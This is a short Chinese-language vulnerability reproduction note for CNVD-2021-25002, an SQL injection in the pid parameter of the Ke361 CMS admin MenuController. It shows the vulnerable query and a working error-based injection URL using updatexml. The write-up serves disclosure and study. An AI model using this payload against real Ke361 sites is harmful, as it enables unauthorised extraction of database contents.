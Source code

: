 # Ke361 MenuController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 MenuController.class.php文件 index() 函数中的pid参数存在 SQL注入漏，导致攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](/assets/PeiQi-Wiki/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232948253.png)

存在漏洞的文件为 `Application/Admin/Controller/MenuController.class.php`

![img](/assets/PeiQi-Wiki/img/1634136475760-256dded1-8bef-40a2-b391-e3a84bd7fcc2.png)

Get 传参 pid 传入SQL语句

```php
SELECT `id`,`title`,`pid`,`sort`,`url`,`hide`,`tip`,`group`,`is_dev`,`status` FROM `ke_menu` WHERE (id=1)
```

使用括号闭合语句，构造SQL注入

```php
/admin.php?s=/Menu/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](/assets/PeiQi-Wiki/img/1634140622931-bdc55324-f405-4708-8973-4fef07eeac8e.png)